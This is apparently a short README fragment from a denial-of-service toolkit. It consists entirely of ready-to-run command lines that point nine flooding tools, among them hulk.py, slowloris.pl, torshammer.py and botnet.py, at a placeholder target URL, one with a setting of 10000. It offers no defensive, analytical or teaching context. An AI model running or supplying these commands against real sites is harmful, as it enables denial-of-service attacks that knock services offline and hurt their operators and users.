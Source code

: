 python saphyra.py http://www.TARGET.COM

python hulk.py http://www.TARGET.COM

python akira.py http://www.TARGET.COM

python botnet.py http://www.TARGET.COM

python httpdoser.py http://www.TARGET.COM

perl slowloris.pl -dns www.TARGET.COM

python sadboys.py http://www.TARGET.COM

python sadattack.py http://www.TARGET.COM

python torshammer.py -t https://www.TARGET.COM -r 10000
